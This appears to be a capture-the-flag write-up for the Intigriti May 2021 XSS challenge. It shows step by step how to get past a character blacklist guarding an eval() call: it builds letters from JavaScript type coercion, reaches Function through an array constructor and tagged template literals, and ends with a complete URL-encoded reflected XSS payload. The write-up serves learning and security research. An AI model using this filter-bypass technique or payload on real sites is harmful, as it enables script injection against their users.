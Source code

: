 ```yaml
---
grand_parent: Write-ups
parent: 2021
title: May
nav_order: 1
---
```


## Write-up
Looking at the [source](view-source:https://challenge-0521.intigriti.io/captcha.php) of the challenge, we see that there is a sink within the function `calc()` on lines 99 onward:

```js
function calc() {
        const operation = a.innerText + b.innerText + c.value;
        if (!operation.match(/[a-df-z<>()!\\='"]/gi)) { // Allow letter 'e' because: https://en.wikipedia.org/wiki/E_(mathematical_constant)
            if (d.innerText == eval(operation)) {
```

Where the variable `c` contains the value within the only input box on the page.

<image src="images/1.jpg" />

Seems like we can directly reach the `eval()` sink by injecting our JS code within the HTML input box. However, there is a regex filter that will reject any input that contains any of the blacklisted characters. It appears that only numbers, the letter "e", and some special characters are permitted.

The goal is to be able to pop an alert box with the domain, so our final payload could be something like:

```js
Function(alert(document.domain))()
```

<image src="images/2.jpg" />

One way to achieve XSS under such constraints would be to use [JSF**k](https://github.com/aemkei/jsfuck). However, it requires the characters `!` and `( )`, which are blacklisted.

<image src="images/3.jpg" />

It would appear that we have to construct our own modified version of JSF**k by making use of the allowed characters (`[ ] + {}` etc) and then obtaining english alphabets by extracting the characters from the output. For example, the following shows the various output based on the input in JavaScript:

| OUTPUT | INPUT |
|--------|-------|
|`"NaN"`| `[]-{}+[]` |
|`"undefined"`|`[][[]]+[]`|
|`"[object Object]"`|`[]+{}`|
|`"Infinity"`| `1e999+[]`<br> ***e** is not blacklisted by the regex*|
|`"[object HTMLProgressElement]"`|`e+[]`<br> *accesses the **"e"** HTML element*|

> Appending `+[]` casts the output to string type.

This is how the input and output looks like:

<image src="images/4.jpg" />

We can then extract the alphabets from these output by the following format:

```js
[INPUT][0][pos]   // where INPUT is the input characters and pos is the charAt character to obtain
```

An example to retrieve the letter "d" (*INPUT = `[][[]]+[]`, pos = `2`*):

<image src="images/5.jpg" />

As a result, we now have access to the following charset:

```
a => [[]-{}+[]][0][1]
b => [[]+{}][0][2]
c => [[]+{}][0][5]
d => [[][[]]+[]][0][2]
e => [[][[]]+[]][0][3]
f => [[][[]]+[]][0][4]
g => [e+[]][0][13]
i => [[][[]]+[]][0][5]
j => [[]+{}][0][3]
l => [e+[]][0][21]
m => [e+[]][0][23]
n => [[][[]]+[]][0][1]
o => [[]+{}][0][1]
r => [e+[]][0][13]
s => [e+[]][0][18]
t => [1e999+[]][0][6]
u => [[][[]]+[]][0][0]
y => [1e999+[]][0][7]
```

We are still missing some characters from our payload goal:

```js
Function(alert(document.domain))()
```

An alternative way, instead of using the word `Function`, we could use the string `[]["find"]["constructor"]` to retrieve the [constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor) of a native function (in this case, *"find"*). Effectively, this means that we are using `Function`. So, our payload becomes:

```js
[]["find"]["constructor"](alert(document.domain))()
```

Backticks (`) are also not filtered, so we replace it in the payload goal. It now looks like

```js
[]["find"]["constructor"]`alert(document.domain)```
```

<image src="images/6.jpg" />

Now, we just need to form the string `alert(document.domain)`. Let us see what is the output of `[]["find"]["constructor"]` (casting to string with `+[]`):

<image src="images/7.jpg" />

Let's confirm that we are able to extract the alphabets while complying with the regex. This means we have to form the words `find` and `constructor` using the charset we have so far:

```
f => [[][[]]+[]][0][4]
i => [[][[]]+[]][0][5]
n => [[][[]]+[]][0][1]
d => [[][[]]+[]][0][2]
...
```

<image src="images/8.jpg" />

We can now expand our available charset using the same method as before to extract alphabets. Updated charset:

```
a => [[]-{}+[]][0][1]
b => [[]+{}][0][2]
c => [[]+{}][0][5]
d => [[][[]]+[]][0][2]
e => [[][[]]+[]][0][3]
f => [[][[]]+[]][0][4]
g => [e+[]][0][13]
i => [[][[]]+[]][0][5]
j => [[]+{}][0][3]
l => [e+[]][0][21]
m => [e+[]][0][23]
n => [[][[]]+[]][0][1]
o => [[]+{}][0][1]
r => [e+[]][0][13]
s => [e+[]][0][18]
t => [1e999+[]][0][6]
u => [[][[]]+[]][0][0]
v => [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][23]
y => [1e999+[]][0][7]
( => [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][13]
) => [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][14]
```

It appears that we can now form the payload: `alert(document.domain)` with our charset.

```js
[[]-{}+[]][0][1] + [e+[]][0][21] + [[][[]]+[]][0][3] + [e+[]][0][13] + [1e999+[]][0][6] + [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][13] + [[][[]]+[]][0][2] + [[]+{}][0][1] + [[]+{}][0][5] + [[][[]]+[]][0][0] + [e+[]][0][23] + [[][[]]+[]][0][3] + [[][[]]+[]][0][1] + [1e999+[]][0][6] + `.` + [[][[]]+[]][0][2] + [[]+{}][0][1] + [e+[]][0][23] + [[]-{}+[]][0][1] + [[][[]]+[]][0][5] + [[][[]]+[]][0][1] + [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][14]
```

<image src="images/9.jpg" />

However, there is a *caveat* that was discovered when attempting to use this payload:

```js
[]["find"]["constructor"]`[[]-{}+[]][0][1] + [e+[]][0][21] + [[][[]]+[]][0][3] + [e+[]][0][13] + [1e999+[]][0][6] + [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][13] + [[][[]]+[]][0][2] + [[]+{}][0][1] + [[]+{}][0][5] + [[][[]]+[]][0][0] + [e+[]][0][23] + [[][[]]+[]][0][3] + [[][[]]+[]][0][1] + [1e999+[]][0][6] + `.` + [[][[]]+[]][0][2] + [[]+{}][0][1] + [e+[]][0][23] + [[]-{}+[]][0][1] + [[][[]]+[]][0][5] + [[][[]]+[]][0][1] + [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][14]`
```

The `alert(document.domain)` remains "encoded" in the same format that we injected it with:

<image src="images/10.jpg" />

To resolve this, we have to wrap the `alert` payload with `${}` in order for it to process it properly (and not as a literal string). Let's see if this works then:

```js
[]["find"]["constructor"]`${[[]-{}+[]][0][1] + [e+[]][0][21] + [[][[]]+[]][0][3] + [e+[]][0][13] + [1e999+[]][0][6] + [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][13] + [[][[]]+[]][0][2] + [[]+{}][0][1] + [[]+{}][0][5] + [[][[]]+[]][0][0] + [e+[]][0][23] + [[][[]]+[]][0][3] + [[][[]]+[]][0][1] + [1e999+[]][0][6] + `.` + [[][[]]+[]][0][2] + [[]+{}][0][1] + [e+[]][0][23] + [[]-{}+[]][0][1] + [[][[]]+[]][0][5] + [[][[]]+[]][0][1] + [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][14]}`
```

... but to no avail:

<image src="images/11.jpg" />

Looking at the [documentation](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals#tagged_templates), it appears that tagged literals are handled in a unique way. It appears to expect a string before and after the `${}` template before passing the contents of `${}` into the function (anonymous function in this case).

So, we will do something like:

```js
[]["find"]["constructor"]`e1${PAYLOAD}e1`
// "e1" is used since we have to comply with the regex still
```

<image src="images/12.jpg" />

All looks well, so we will invoke the function immediately by appending 2 more backticks to the payload:

```js
[]["find"]["constructor"]`e1${PAYLOAD}e1```
```

<image src="images/13.jpg" />

Payload works!

Final step, since the solution cannot be a self-XSS, let's see if reflected works by guessing the parameter to be `c` (since that is the HTML `id` of the input box)

We URL-encode it and the final URL is thus:

```
https://challenge-0521.intigriti.io/captcha.php?c=%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B4%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B5%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B1%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%5D%5B%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B5%5D%20%2B%20%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B1%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B1%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B18%5D%20%2B%20%5B1e999%2B%5B%5D%5D%5B0%5D%5B6%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B13%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B0%5D%20%2B%20%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B5%5D%20%2B%20%5B1e999%2B%5B%5D%5D%5B0%5D%5B6%5D%20%2B%20%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B1%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B13%5D%5D%60e1%24%7B%5B%5B%5D%2D%7B%7D%2B%5B%5D%5D%5B0%5D%5B1%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B21%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B3%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B13%5D%20%2B%20%5B1e999%2B%5B%5D%5D%5B0%5D%5B6%5D%20%2B%20%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%5D%2B%5B%5D%5D%5B0%5D%5B13%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%20%2B%20%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B1%5D%20%2B%20%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B5%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B0%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B23%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B3%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B1%5D%20%2B%20%5B1e999%2B%5B%5D%5D%5B0%5D%5B6%5D%20%2B%20%60%2E%60%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%20%2B%20%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B1%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B23%5D%20%2B%20%5B%5B%5D%2D%7B%7D%2B%5B%5D%5D%5B0%5D%5B1%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B5%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B1%5D%20%2B%20%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%5D%2B%5B%5D%5D%5B0%5D%5B14%5D%7De1%60%60%60
```

Clicking the "Submit" button, the XSS will be triggered.

<image src="images/proof.jpg" />

